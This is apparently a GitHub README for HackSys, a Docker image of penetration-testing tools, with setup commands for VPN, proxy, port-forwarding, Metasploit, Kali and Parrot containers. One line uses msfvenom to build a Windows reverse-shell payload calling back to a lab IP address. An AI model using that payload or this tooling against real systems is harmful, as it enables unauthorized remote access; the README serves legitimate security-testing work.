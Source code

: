 [![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/antfie/HackSys/blob/master/LICENSE)

# HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* <3GB
* Security tools installed:
  * nmap
  * [sqlmap](http://sqlmap.org/)
  * [impacket](https://github.com/SecureAuthCorp/impacket)
  * SecLists
  * searchsploit
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)
  * [CeWL](https://digi.ninja/projects/cewl.php)
  * wfuzz
* Development tools installed:
  * Python 2 and 3, with common pip modules (requests colorama beautifulsoup4 scrapy)
  * Go
  * Java
  * Ruby
  * PHP
* Easy to add in new capabilities via `apk add`
* Built-in SOCKS5 proxy (via SSH tunnel)
* Simple port forwarding
* Zsh

Example prompt:

```
┌──(🔒HackSys@10.10.10.10)-[/app]
└─#
```

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Ensure there is a single openVPN configuration file within the curreent directory and run the main VPN container with this:

```
docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys
```

### Port Forward

To port forward for example RDP (3389) from 192.168.162.120:

```
docker run --rm -it --network=container:vpn --entrypoint fwd -e FWD_TO=192.168.162.120:3389 antfie/hacksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

You may want to upgrade with:

```
apt-get update && apt-upt install -y kali-linux-default
```

#### Parrot

```
docker run --rm -it --network=container:vpn -v $PWD:/app parrotsec/security
```

You may want to upgrade with:

```
apt-get update && apt-get install -y parrot-tools
```

## Building

```
docker pull alpine
docker build -t antfie/hacksys .
```

## Useful Shell Aliases

```zsh
alias hsv='docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn'
alias hsp='docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys'
alias hs='docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys'
alias hsm='docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework'
alias hsmv='docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework'
alias hsk='docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling'
alias hsps='docker run --rm -it --network=container:vpn -v $PWD:/app parrotsec/security'
```